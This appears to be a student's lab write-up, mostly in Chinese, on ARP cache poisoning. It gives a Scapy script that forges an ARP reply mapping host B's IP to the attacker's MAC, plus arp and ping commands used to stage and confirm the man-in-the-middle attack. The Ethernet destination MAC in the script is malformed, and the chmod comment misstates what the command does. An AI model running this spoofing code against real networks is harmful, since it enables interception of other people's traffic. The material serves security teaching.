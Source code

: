 - Scenario 2: B’s IP is not in A’s cache. You can use the command "arp -d a.b.c.d" to
remove the ARP cache entry for the IP address a.b.c.d.
```python
#!/usr/bin/env python3
from scapy.all import *

# On host M, construct an ARP reply packet to map B’s IP address to M’s MAC address. 
# victim:10.9.0.5
# goal: map 10.9.0.6 to 02:42:0a:09:00:69

print("SEDING ARP PACKET.......")
ether = Ether()
ether.dst ="02:42:0a:09:00:5"  
ether.src ="02:42:0a:09:00:69" 

arp = ARP()
arp.op = 2 # 1 for ARP request; 2 for ARP reply
# src
arp.hwsrc="02:42:0a:09:00:69" 
arp.psrc="10.9.0.6"
# dst
arp.hwdst="02:42:0a:09:00:05" 
arp.pdst="10.9.0.5"

pkt = ether/arp
sendp(pkt)
```

```
编写完后 
chmod a+x filename //给所有用户读写运行的权限
```

Task1.a中发的是arp请求报文，这个是arp响应报文，本质没什么区别，构造arp reply数据包发送程序， 主要的区别其实还是在源和目的地址上面 ，而且这次已知了A的mac，并不是广播

#### Section1
首先，查看A的arp表，可见是上次攻击得到的假的mac地址，因此采用指令删除arp表项，即清空arp表，然后再用ping 命令，在A中ping B，通过发送报文，得到B的真实的mac地址，如下图。
即确保B’s IP is already in A’s cache.

```
# 在A中
arp -d 10.9.0.6 // 删除
arp -n   //查看
ping 10.9.0.6 //引入正确的表项
```

![[大三下/网络与信息安全/实验二/attachments/8.png]]

然后在M内执行程序，发起中间人攻击，可见arp表中mac地址发生改变，攻击成功

![[大三下/网络与信息安全/实验二/attachments/9.png]]

![[大三下/网络与信息安全/实验二/attachments/10.png]]
